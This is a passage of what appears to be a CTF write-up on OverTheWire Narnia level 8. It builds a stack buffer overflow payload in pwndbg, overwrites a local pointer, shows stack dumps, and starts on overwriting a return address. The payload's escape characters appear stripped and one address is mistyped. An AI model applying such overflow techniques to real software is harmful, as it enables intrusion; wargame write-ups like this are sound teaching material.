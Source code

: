 A*20 + ADDRESS_TO_LOCAL_8 + ‘A’*6

When we passed 6 A’s into the buffer, the address to local_8 was 0xfffd2f8. If we are to input 14 more A’s followed by the address to local_8 (which is four bytes) followed by another 6 A’s, then the resulting address to local_8 would be 0xffffd2f8 - (14+4+6).

{% highlight bash %}
>>> hex(0xffffd2f8-24)  
'0xffffd2e0'
{% endhighlight %}

Using this address, we can construct the payload as follows:

{% highlight bash %}
pwndbg> r $(python -c "print 'A'*20+'xe0xd2xffxff'+'A'*6")  
Starting program: /home/0xd4y/business/other/overthewire/narnia/8/narnia8 $(python -c "print 'A'*20+'xe0xd2xffxff'+'A'*6")  
AAAAAAAAAAAAAAAAAAAAAAAAAA  
                                           
Breakpoint 1, 0x0804848d in func ()                                          
{% endhighlight %}

Now looking at the stack pointer, we see that we have successfully flooded memory past the local_8 address:

{% highlight bash %}
pwndbg> x/40x $esp  
0xffffd024:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd034:     0x41414141      0xffffd2e0      0x41414141      0x08044141  
0xffffd044:     0xffffd2e0      0x00000000      0xf7ddfe46      0x00000002
{% endhighlight %}

Incidentally, the reason why we were only able to overwrite other areas of memory only after including the address of the buffer in the payload, is because of the for loop within the program. When the address to local_8 is overwritten, the for loop is false and data stops getting written to local_1c.

##### Overwriting func Return Address

It is important to note that in the stack pointer, the return address of func is present shortly after the buffer:

{% highlight bash %}
pwndbg> x/40x $esp                                                                                                                                                           0xffffd034:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffd044:     0x41414141      0xffffd2ea      0xffffd058      0x080484a7                                                                                                   0xffffd054:     0xffffd2ea      0x00000000      0xf7ddfe46      0x00000002                                                                                                   0xffffd064:     0xffffd104      0xffffd110      0xffffd094      0xffffd0a4                                                                                                   0xffffd074:     0xf7ffdb40      0xf7fcb410      0xf7fa6000      0x00000001                                                                                                   0xffffd084:     0x00000000      0xffffd0e8      0x00000000      0xf7ffd000                                                                                                   0xffffd094:     0x00000000      0xf7fa6000      0xf7fa6000      0x00000000                                                                                                   0xffffd0a4:     0xe752d891      0xa309e681      0x00000000      0x00000000           0xffffd0b4:     0x00000000      0x00000002      0x08048320      0x00000000                                                                                                   0xffffd0c4:     0xf7fe9740      0xf7fe4080      0xf7ffd000      0x00000002                                                                                                                                                                                                                                                                                                                                                                                       
{% endhighlight %}
